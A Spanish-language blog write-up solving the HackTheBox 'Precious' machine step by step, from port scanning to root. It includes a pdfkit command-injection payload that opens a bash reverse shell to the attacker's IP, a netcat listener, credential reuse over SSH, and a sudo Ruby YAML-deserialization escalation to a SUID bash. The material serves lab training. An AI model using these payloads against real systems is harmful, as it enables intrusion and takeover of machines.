```yaml
---
layout: single
title: VULNERAR MÁQUINA PRECIOUS HTB
excerpt: "Si te gusta la cybersegurity estoy seguro que conocerás la plataforma HackTheBox. He estado entrenando durante algún tiempo y en este artículo vulneraré esta máquina paso a paso "
date: 2023-01-23
classes: wide
header:
  teaser: /assets/images/articulos/2023-01-23-maquina-precious/diamond.png
  teaser_home_page: true
  icon: /assets/images/articulos/hackthebox.png
categories:
  - Pentesting
toc: true
tags:
  - Writeup
comments: true
---
```


# Primeros pasos

En este artículo voy a subir mi writeup vulnerando la máquina Precious del sitio web HackTheBox. Voy a ir paso a paso explicando poco a poco los pasos que voy realizando. He estado entrando e investigando y después de un par de días intentandolo resolver por mi mismo, traigo esta writeup para poder coger la flag, o bandera y así completar esta máquina. 

# Materiales

En esta máquina recomiendo tener un sistema operativo Linux, conectarnos a la VPN de HTB y tener nociones sobre herramientas básicas de pentesting.

# Resolución Máquina Precious

- Primero haremos ping para ver si llegamos a la máquina con una traza ICMP

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/1.png"/>
</div>

- Ahora que vemos que tenemos conexión, vamos a realizar un escaneo de los puertos de la máquina con Nmap (puedes encontrar un tutorial sobre esta herramienta en mi blog). Cómo podemos comprobar, tenemos abiertos los puertos 22/tcp y 80/tcp. El 22/tcp corresponde al servicio ssh y al 80/tcp pertenece al servicio http.

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/2.png"/>
</div>

- Si usamos el comando curl podremos ver el dominio http://precious.htb

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/3.png"/>
</div>

- Voy a editar mi archivo /etc/hosts y pondré los siguientes parámetros:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/4.png"/>
</div>

- Ahora, si abrimos nuestro navegador de confianza, podremos ver la siguiente página web, un convertidor de web a pdf:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/5.png"/>
</div>

- Ahora necesitaremos crear un servidor con python para ver si podemos realizar algunas peticiones. Tranquil@, no necesitas saber este lenguaje para este ejercicio, ya que es un comando muy sencillo:

```
sudo python3 -m http.server 80
```

- Ahora, nos metemos en la web y en el buscador vamos a apuntar a nuestro servidor http que hemos creado de la siguiente manera:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/6.png"/>
</div>

- Cómo podemos ver, nos llega una petición a nuestro servicio http, además nos descarga un documento pdf:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/7.png"/>
</div>
<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/8.png"/>
</div>

- A continuación necesitaremos una herramienta llamada exiftool que nos dará información avanzada sobre un archivo pdf, lo usaremos para ver esa información del archivo pdf descargado. La instalaremos fácilmente de la siguiente manera:

```
sudo apt install exiftool
```

- Vamos a cambiar el nombre del archivo y le pondremos precious.pdf, y vamos a analizarlo:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/9.png"/>
</div>

- Oh vaya, ha sido genereado con pdfkit v0.8.6. Es hora de llegar a la parte divertida, crear una reverse shell. Voy a crear una injección, en este artículo puedes encontrar este payload de la página [Snyk vulnerability DB](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Con él vamos a realizar un exploit muy sencillo usando el convertidor que tiene la página http precious de la siguiente manera: 

```
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/"TuIP"/443 0>&1"`'}
```
<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/10.png"/>
</div>

- Antes de ejecutar eso en la aplicación web, escucharemos por netcat con el siguiente comando:

```
sudo netcat -lvnp 443
```

- Ya tenemos la reverse shell, mejor no podemos ir.

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/11.png"/>
</div>

- Cómo podemos comprobar somos el usuario ruby

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/12.png"/>
</div>

- He navegado por los directorios, y específiamente en ~/.bundle tenemos información relevante sobre un usuario llamado henry. ¿Qué puertos tenemos abiertos en esta máquina además del servicio HTTP? correcto, el servicio SSH. Vamos a probar acceso al usuario henry por ssh haber si tenemos acceso con las credenciales obtenidas:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/13.png"/>
</div>

- Ya tenemos acceso a la máquina con el usuario henry y con esto ya tenemos la primera flag, la obtendremos de la siguiente manera:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/14.png"/>
</div>

<br>

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/15.png"/>
</div>

- Apuntamos esta flag en un archivo txt para más adelante agregarla en HTB y así obtenerla. Continuamos  mirando si los permisos de sudoers, podemos ver que podemos ejecutar un archivo de ruby como root. Si leemos el archivo podemos comprobar que en una parte intenta cargar a dependencies.yml Podrás comprobar lo mencionado en la siguiente captura:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/16.png"/>
</div>

- Con el siguiente payload vamos a ejecutar un comando para realizar la bash suid (son permisos de acceso que pueden asignarse a archivos o directorios en un sistema operativo basado en Unix. Se suele utilizar para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea en específico.) [Pincha aquí para obtener el payload](https://gist.githubusercontent.com/staaldraad/89dffe369e1454eedd3306edc8a7e565/raw/4b85e6fe8f5708f0a7ba87dbecb6954f8f380bee/ruby_yaml_load_sploit2.yaml). Yo lo he copiado y pegado en un archivo que me he hecho en el escritorio, además cambiaremos el git_set, cómo podemos ver en la captura: 

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/17.png"/>
</div>

- Ahora solo nos queda ejecutar el script ruby y cargar el yml, si ejecutamos el comando ya tendremos la bash suid:

```
sudo ruby /opt/update_dependencies.rb 2>/dev/null
```

- Ya tenemos la bash como propietarios !!! Esto significa que ya podemos leer la flag.

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/18.png"/>
</div>

- Lo único que tenemos que realizar es lo siguiente:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/19.png"/>
</div>

- Lo único que nos queda es subir las dos flags encontradas, la de henry y la de root, a HackTheBox y ya tendremos la máquina PWNED.

# Precious have been pwned

Ya tenemos la máquina comprometida, tenenmos la flag de henry (usuario) y la flag de root, por lo que ya tenemos la máquina precious completamente realizada 

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/pwnd.png"/>
</div>










































